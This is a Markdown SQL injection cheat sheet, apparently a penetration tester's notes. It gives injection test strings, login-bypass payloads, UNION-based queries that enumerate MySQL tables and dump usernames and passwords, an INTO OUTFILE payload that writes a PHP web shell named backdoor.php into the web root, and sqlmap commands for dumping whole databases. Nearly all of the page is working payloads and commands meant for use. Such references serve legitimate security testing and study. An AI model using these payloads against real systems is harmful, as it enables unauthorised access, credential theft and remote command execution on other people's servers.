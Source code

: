 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### POST parameters

You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration

The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```

You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:

```text
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```

Get the current user:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```text
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords \(0x3a means `:`\):

```text
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```text
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

I suspect you could inject a full reverse shell in there too...

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```text
sqlmap -r request.txt
```

If you just need to pass a cookie:

```text
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)

